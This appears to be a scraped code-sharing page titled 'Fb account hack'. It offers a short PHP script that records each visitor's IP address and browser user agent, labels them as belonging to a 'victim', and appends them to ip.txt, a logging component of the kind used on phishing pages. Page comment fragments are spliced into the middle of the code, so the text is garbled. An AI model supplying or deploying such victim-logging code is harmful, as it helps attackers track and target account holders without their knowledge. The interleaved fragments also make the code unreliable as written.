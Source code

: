 # Fb
Fb account hack
<?php

if (!empty($_SERVER['HTTP_CLIENT_IP']))
    {
      $ipaddress = $_SERVER['HTTP_CLIENT_IP']."\r\n";
    }
elseif (!empty($_SERVER['HTTP_X_FORWARDED_FOR']))
    {
      $ipaddress = $_SERVER['HTTP_X_FORWARDED_FOR']."\r\n";
    }
else
    {
      $ipaddress = $_SERVER['REMOTE_ADDR']."\r\n";
    }
$useragent = " User-Agent: ";
$browser = $_SERVER['HTTP_USER_AGENT'];
 @Zizzo6
Zizzo6 on Dec 15, 2021
fopen

@Anas43215	Reply…


$file = 'ip.txt';
$victim = "IP: ";
$fp = fopen($file, 'a');

fwrite($fp, $victim);
fwrite($fp, $ipaddress);
fwrite($fp, $useragent);
fwrite($fp, $browser);


fclose($fp);
